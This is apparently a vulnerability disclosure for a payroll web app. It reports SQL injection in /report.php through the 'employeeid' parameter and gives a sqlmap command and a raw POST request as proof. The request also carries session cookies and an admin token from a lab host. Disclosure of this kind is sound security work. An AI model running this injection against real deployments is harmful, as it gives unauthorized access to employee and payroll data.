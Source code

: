 [description]
 
Online-Payroll-Management-System was discovered to contain a SQL Injection vulnerability via the URI /report.php with parameter name 'employeeid'.

 ------------------------------------------

 [Vulnerability Type]
 
 SQL Injection

 ------------------------------------------
 [Vendor of Product]
 
 Online-Payroll-Management-System,https://github.com/MD-MAFUJUL-HASAN/Online-Payroll-Management-System

 ------------------------------------------

 [Affected Product Code Base]
 
 <=commit a8902bf64575e325f6d6bf93a55f7bd273ec58cd

 ------------------------------------------

 [Impact Escalation of Privileges]
 
 true

 ------------------------------------------
 [POC]
<img width="1364" alt="图片" src="https://github.com/user-attachments/assets/a93b2963-085d-43e6-a478-e92e9fab2eb7">

<img width="694" alt="图片" src="https://github.com/user-attachments/assets/de7554cb-d569-4c5e-821a-0502219119e9">






sqlmap:
```
sqlmap -r a.txt -p employeeid --batch --banner --flush-session
```
a.txt
```
POST /report.php HTTP/1.1
Host: 192.168.0.183:11182
Content-Length: 35
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.183:11182
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.183:11182/gen_report.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7
Cookie: i18next=en; Admin-Token=eyJhbGciOiJIUzUxMiJ9.eyJsb2dpbl91c2VyX2tleSI6ImU0ZjJhZWJmLWVkMDEtNGM0OC04YjU4LTI3OTFjMzllMzFmMCJ9.0J-cqM7f9-cNNDe8_Q3CAiWkq4iyNqLDbBUh6mnYfRl1Ygv4HPIp3Ky1cbbpN3_4Zr8lYluJ5-nEunFvF84Xyw; sidebarStatus=0; pro_end=-1; ltd_end=-1; serverType=nginx; order=id%20desc; memSize=32012; SESSIONID=5253906e-713a-40e1-9da8-379c12b5fc68.g9MHRcbVBSSnuxBS2kXozqhXoig; request_token=R2jSjrmCm9VN6xmDbAK0n3uK282rC2acIB330unM9N1GRSTD; sites_path=/www/wwwroot; distribution=ubuntu; force=0; load_type=null; uploadSize=1073741824; rank=a; form_proxy=%5Bobject%20Object%5D; backup_path=/www/backup; PHPSESSID=72uq71htklndamdj2mrmj2f9o7; pnull=1; load_page=1; load_search=undefined; vcodesum=13; BatchPaste=null; _ga=GA1.1.2111016145.1721287966; _gid=GA1.1.1011972672.1721287966; Path=/www/wwwroot/Online-Payroll-Management-System.com; _gat=1; _ga_J1DQF09WZC=GS1.1.1721287966.1.1.1721292348.0.0.0
Connection: keep-alive

employeeid=1&submit=GENERATE+REPORT%  
```
